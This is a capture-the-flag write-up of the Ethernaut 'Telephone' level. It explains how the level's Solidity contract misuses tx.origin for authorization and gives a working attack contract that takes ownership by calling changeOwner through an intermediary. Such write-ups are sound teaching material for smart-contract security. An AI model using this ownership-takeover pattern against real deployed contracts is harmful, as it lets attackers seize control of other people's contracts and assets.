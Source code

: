 ### Ethernaut telephone

Oh the dangers of tx.origin

To claim ownership of this contract, all we need to do is figure out how to call changeOwner  and have the tx.origin be different from the msg.sender.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


How can we do this? 

First of all what is the difference between tx.origin and msg.sender?
tx.origin refers to the external account that started the tx
msg.sender refers to the sender of the current transaction.


So if we initiate the transaction with our wallet, then have a contract call the changeOwner function, we will have created a scenario where tx.origin != msg.sender.


Here's an example of a contract that does that.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
    function changeOwner(address _owner) external;
    function owner() external view returns (address);
}

contract Attack {
    address telephoneContractAddress = 0x8e7dD33aCBf4fB55642479bD34B71385546e2A64;
    ITelephone telephoneContract = ITelephone(telephoneContractAddress);

    function getTelephoneOwner() public view returns (address) {
        return telephoneContract.owner();
    }

    function becomeOwner() public {
        telephoneContract.changeOwner(msg.sender);
    }
}
```